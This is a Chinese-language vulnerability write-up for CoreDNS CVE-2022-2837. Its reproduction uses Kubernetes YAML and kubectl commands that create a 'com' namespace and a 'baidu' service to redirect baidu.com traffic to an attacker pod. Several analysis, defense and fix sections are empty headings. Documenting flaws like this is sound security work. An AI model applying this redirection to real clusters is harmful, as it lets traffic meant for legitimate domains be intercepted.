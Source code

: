 # 漏洞分析

## 一、漏洞基本信息

| Item                        | Details                                          | Note                                        |
|-----------------------------|--------------------------------------------------|---------------------------------------------|
| Project                     | coreDNS                                       |                                             |
| CVE-ID                      | CVE-2022-2837                                  |                                             |
| Vuln's Author               |                                      |     |
| CVSS                        | 6.1 CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N |                                             |
| Exploits                    |                                                  |                                             |
| Affect Version              | <= 1.9.3                                      |                                             |
| Fix Version                 |              |                                             |
| Original Report             |                                                  |                                             |
| Fix Commit                  |   |   |
| Introduce Commit            |   |   |
| Publish Date                | 2023-05-04                                       |                                             |
| Introduce Date              |                                        |                                             |


## 二、组件简介
coreDNS为kubernetes重要组件，负责集群中的域名解析服务

## 三、漏洞详情

### 1. 介绍
coreDNS存在一个漏洞，利用该漏洞可以重定向pod中访问顶级域名（TLD）的流量到集群中的另一个pod上

### 2. 影响
该漏洞的利用需要拥有创建Pod、创建Namespace以及创建Service的权限，需要权限较多且较高，且只能重定向顶级域名，无法重定向二级域名，故影响很有限，官方也未进行修复

## 四、防御


## 五、漏洞复现

### 1. 复现环境
- 创建`com`Namespace并在该Namespace下创建Pod和Service
```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: com 
---
apiVersion: v1
kind: Pod 
metadata:
  name: poc 
  namespace: com 
  labels:
    app: test-app
spec:
  containers:
  - name: nginx
    image: nginx
    ports:
    - containerPort: 80
---
apiVersion: v1
kind: Service
metadata:
  name: baidu
  namespace: com 
spec:
  selector:
    app: test-app 
  ports:
  - name: http
    port: 80
    protocol: TCP 
---
apiVersion: v1
kind: Pod 
metadata:
  name: test
  namespace: com 
spec:
  containers:
  - image: ubuntu
    name: test
    command: ["sleep"]
    args: ["10000"]
```
- 拷贝`curl`到`test`Pod中
```
kubectl cp curl-amd64 test:/ -n com
kubectl exec -n com test -- chmod +x /curl-amd64
```
- 在`test`Pod中访问`baidu.com`
```
kubectl exec -n com test -- /curl-amd64 -s http://baidu.com
```
- 会发现`baidu.com`的流量被解析到了`poc`Pod中
```html
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
html { color-scheme: light dark; }
body { width: 35em; margin: 0 auto;
font-family: Tahoma, Verdana, Arial, sans-serif; }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
```

## 六、漏洞分析

### 1. 原始特性分析

### 2. 调用链分析

### 3. 漏洞分析


## 七、漏洞修复分析


## 八、漏洞挖掘方法与过程

## 九、同类问题挖掘方法

### 设计实现层

### Fuzz

### codeql

## 十、时间线

